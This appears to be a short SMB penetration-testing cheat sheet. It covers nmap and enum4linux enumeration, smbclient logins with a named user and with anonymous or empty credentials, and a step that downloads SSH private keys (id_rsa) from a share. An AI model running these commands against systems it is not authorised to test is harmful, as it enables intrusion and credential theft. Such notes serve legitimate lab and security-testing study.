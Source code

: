 ```yaml
---
description: Find and exploit SMB vulnerabilities
---
```


# SMB Pentesting

## Enumeration

### Using nmap

```awk
sudo nmap -sC -sV 10.10.170.245
```

### Using enum4linux

```bash
enum4linux -a 10.10.170.245
```

## Exploitation

The smbclient utility and impacket library are two good utilities to exploit SMB vulnerability.

### Using smbclient

Let's say we want to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port

```
smbclient //10.10.10.2/secret -U "suit" -p 445
```

### Anonymous login with empty passwords

#### In general shares

```
smbclient //10.10.96.221/profiles -U ''
smbclient //10.10.96.221/profiles -U 'Anonymous'
```

### Navigating through SMB

#### List all available files

```
smb: \> ls
smb: \> dir
```

#### Get multiple or single files (mget command)

```
smb: \.ssh\> mget id_rsa*
```
